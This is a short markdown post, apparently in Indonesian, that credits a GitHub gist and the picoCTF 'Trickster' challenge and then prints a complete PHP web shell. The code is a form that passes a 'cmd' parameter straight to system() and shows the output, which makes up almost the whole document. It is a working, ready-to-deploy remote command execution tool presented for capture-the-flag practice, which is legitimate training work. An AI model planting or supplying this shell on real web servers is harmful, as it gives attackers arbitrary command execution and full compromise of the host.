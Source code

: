 ```yaml
---
title: easy-simple-php-webshell.php
published: true
---
```

Dari [joswr1ght](gist.github.com/joswr1ght) untuk challenges picoCTF [Trickster](https://play.picoctf.org/practice/challenge/445?category=1&difficulty=2&page=1).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```